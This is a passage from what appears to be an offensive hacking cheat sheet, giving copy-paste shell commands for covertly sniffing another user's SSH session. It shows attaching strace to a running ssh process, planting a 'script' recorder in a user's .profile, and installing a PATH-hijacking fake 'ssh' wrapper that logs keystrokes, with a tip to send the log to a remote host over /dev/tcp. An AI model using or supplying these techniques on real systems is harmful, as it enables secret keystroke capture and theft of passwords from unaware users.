 Decrypt:
```sh
openssl enc -d -aes-256-cbc -pbkdf2 -k fOUGsg1BJdXPt0CY4I <input.txt.enc >input.txt
```

---
<a id="misc-anchor"></a>
<a id="sss-anchor"></a>
**9.i Sniff a user's SSH session with strace**
```sh
strace -e trace=read -p <PID> 2>&1 | while read x; do echo "$x" | grep '^read.*= [1-9]$' | cut -f2 -d\"; done
```
Dirty way to monitor a user who is using *ssh* to connect to another host from a computer that you control.

<a id="ssswos-anchor"></a>
**9.ii Sniff a user's SSH session with script**

The tool 'script' has been part of Unix for decades. Add 'script' to the user's .profile. The user's keystrokes and session will be recorded to ~/.ssh-log.txt the next time the user logs in:
```sh
echo 'exec script -qc /bin/bash ~/.ssh-log.txt' >>~/.profile
```
Consider using [zap-args](#hya-anchor) to hide the the arguments and /dev/tcp/3.13.3.7/1524 as an output file to log to a remote host.

<a id="ssswor-anchor"></a>
**9.iii. Sniff a user's SSH session with a wrapper script**

Even dirtier way in case */proc/sys/kernel/yama/ptrace_scope* is set to 1 (strace will fail on already running SSH clients unless uid=0)

Create a wrapper script called 'ssh' that executes strace + ssh to log the session:
```sh
# Cut & Paste the following into a bash shell:
# Add a local path to the PATH variable so our 'ssh' is executed instead of the real ssh:
echo 'PATH=~/.local/bin:$PATH #0xFD0E' >>~/.profile

# Create a log directory and our own ssh binary
mkdir -p ~/.local/bin ~/.local/logs

cat <<__EOF__ >~/.local/bin/ssh
#! /bin/bash
strace -e trace=read -I 1 -o '! ~/.local/bin/ssh-log \$\$' /usr/bin/ssh \$@
__EOF__

cat <<__EOF__ >~/.local/bin/ssh-log
#! /bin/bash
grep 'read(4' | cut -f2 -d\\" | while read -r x; do
        [[ \${#x} -gt 5 ]] && continue 
        [[ \${x} == +(\\\\n|\\\\r) ]] && { echo ""; continue; }
        echo -n "\${x}"
done >\$HOME/.local/logs/ssh-log-"\${1}"-\`date +%s\`.txt
__EOF__

chmod 755 ~/.local/bin/ssh ~/.local/bin/ssh-log
. ~/.profile

echo -e "\033[1;32m***SUCCESS***.
Logfiles stored in ~/.local/.logs/.
To uninstall cut & paste this\033[0m:\033[1;36m
  grep -v 0xFD0E ~/.profile >~/.profile-new && mv ~/.profile-new ~/.profile
  rm -rf ~/.local/bin/ssh ~/.local/bin/ssh-log ~/.local/logs/ssh-log*.txt
  rmdir ~/.local/bin ~/.local/logs ~/.local &>/dev/null \033[0m"
```
(thanks to Gerald for testing this)

